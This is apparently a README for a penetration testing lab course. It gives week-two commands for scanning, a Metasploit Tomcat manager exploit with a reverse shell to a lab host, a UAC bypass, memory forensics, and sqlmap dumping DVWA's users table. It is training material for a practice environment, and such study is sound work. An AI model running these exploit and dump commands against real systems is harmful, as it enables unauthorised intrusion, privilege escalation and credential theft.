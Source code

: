 # CYART VAPT Team – Week 2 Workflow

## Repository Structure
- **Week 2/**  
  - `VAPT_Lab_Complete.pdf` – Consolidated documentation for Tasks 1–5 (embedded screenshots).  
  - **Notes/** – Lab commands, findings, and remediation notes.  
  - **Workflow/** – Step-by-step methodology and sample commands.

## Workflow Steps

### 1. Reconnaissance
1. **Network discovery:**
nmap -sn 192.168.29.0/24
nmap -sV -sC <target>

2. **Web application enumeration:**
nikto -h http://<target>

### 2. Vulnerability Assessment
1. **Start OpenVAS:**
sudo gvm-start

2. **Create target and task via `gvm-cli`:**
gvm-cli socket --xml "<create_target>…</create_target>"
gvm-cli socket --xml "<create_task>…</create_task>"

3. **Export results:**
gvm-cli socket --xml "<get_reports>…</get_reports>"
| base64 -d > openvas.csv

### 3. Exploitation
1. **Metasploit scanner:**
msfconsole -q
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS <target>; run

2. **Exploit Tomcat manager:**
use exploit/multi/http/tomcat_mgr_upload
set HttpUsername tomcat; set HttpPassword tomcat
set LHOST 192.168.29.146; set LPORT 4444
exploit

### 4. Post-Exploitation
1. **Background session & UAC bypass:**
sessions -l
use exploit/windows/local/bypassuac
set SESSION 1; set LHOST 192.168.29.146; set LPORT 4445
exploit

2. **Memory acquisition & forensics:**
dump_memory
volatility -f memory.dmp --profile=Win7SP1x64 pslist
volatility -f memory.dmp --profile=Win7SP1x64 netscan
volatility -f memory.dmp --profile=Win7SP1x64 dumpfiles
-Q 0xADDR --dump-dir=/tmp/evidence/
sha256sum /tmp/evidence/*.dat > /tmp/evidence/hash.txt

### 5. Full VAPT Cycle
1. **SQLMap on DVWA:**
sqlmap -u "http://<target>/dvwa/vulnerabilities/sqli/?id=1"
--cookie="PHPSESSID=…; security=low" --dbs --batch

2. **Table & data dump:**
sqlmap -D dvwa --tables --batch
sqlmap -D dvwa -T users --dump --batch

3. **Final report in Google Docs and executive summary.**

---